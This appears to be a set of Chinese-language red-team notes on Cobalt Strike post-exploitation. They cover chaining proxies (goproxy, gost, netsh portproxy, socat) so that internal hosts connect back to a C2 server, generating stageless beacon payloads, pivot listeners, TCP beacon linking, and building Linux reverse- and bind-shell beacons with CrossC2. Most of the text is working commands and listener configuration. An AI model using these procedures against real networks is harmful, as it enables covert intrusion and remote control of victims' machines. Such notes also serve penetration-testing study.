```shell
#0. 攻击机1.89, 边缘机双ip:1.88/111.131, 内网111.236
#1. 边缘主机131上代理服务 goproxy
proxy.exe http -t tcp -p "0.0.0.0:8080" --daemon
gost -L=8080 -L=tcp://:822/:8080
#2.然后端口转发到外网ip88上, netsh 总出问题，建议用别的。或者每次删除掉再add
netsh interface portproxy add v4tov4 listenaddress=192.168.111.131 listenport=822 connectaddress=192.168.1.88 connectport=8080
#3.cs端 创建 Listener，配置如下
HTTP HOSTS: 192.168.1.89
HTTP Port: 随便填
HTTP Proxy: http://192.168.111.131:822
# 连接过程  192.168.111.236  → 192.168.111.131:822→ 192.168.1.88:8080→ C2(192.168.1.89)
#4.生成stageless payload
```

重要: **生成 stageless payload**

4.正向 tcp

```
1.beacon生成一个stageless形式的木马：上传到目标机器运行：
2.在中转机器的Beacon里使用 connect [ip address] [port]

99.销毁Beacon 链接, 在父会话或子会话的控制台中使用 unlink [ip address] [session PID] 。以后，你可以从同一主机（或其他主机）重新连接到 TCP Beacon。
```

5.中转上线

```
右击某 session - Pivoting - Listener 填好内网地址等信息, name:pivot
菜单Attack - Executable(S), 生成stateless 的 exe, listener: pivot
```

#### 转发上线

[Link](#上线转发代理)

```sh
socat -d -d -lh -v TCP4-LISTEN:80,fork TCP4:192.168.1.215:80
# 转发服务器 为 192.168.1.91, C2服务器为 :192.168.1.215
HTTP Hosts和HTTP Host(Stager)填写转发服务器ip - 192.168.1.91
HTTP Port(C2)填写转发服务器要监听的端口 80
HTTP Port(Bind)填写C2服务器要监听的端口 80
```

#### 上线 Linux

CrossC2 - 上线 linux 插件, 只支持 https

```shell
# reverse shell
## 有 profile
gcc test.c -fPIC -shared -o lib_rebind_test.so # test2.c中替换了memcpy防止低系统无法运行
gcc -m32 test.c -fPIC -shared -o lib_rebind_testx86.so
./genCrossC2.Linux 192.168.50.161 4431 .cobaltstrike.beacon_keys lib_rebind_test.so Linux x64 test
./genCrossC2.Linux 192.168.50.161 4431 .cobaltstrike.beacon_keys lib_rebind_testx86.so Linux x86 test
## 无 profile
./genCrossC2.Linux 192.168.93.1 443 null null Linux x64 ./test
./genCrossC2.Linux 192.168.93.1 443 .cobaltstrike.beacon_keys null Linux x64 ./test
./genCrossC2.Linux 192.168.93.1 443 .cobaltstrike.beacon_keys null:config.ini Linux x64 t_cc2.out
# bind shell
./genCrossC2.Linux 192.168.50.161 4431 ./.cobaltstrike.beacon_keys null Linux-bind x64 t3.out
## 1. 上面  ip与port字段无需考虑
## 2. 内网中的目标运行 ./MacOS-bind.beacon <port> 开启服务
## 3. 在网络联通的session中运行 connect <targetIP>:<port>
```
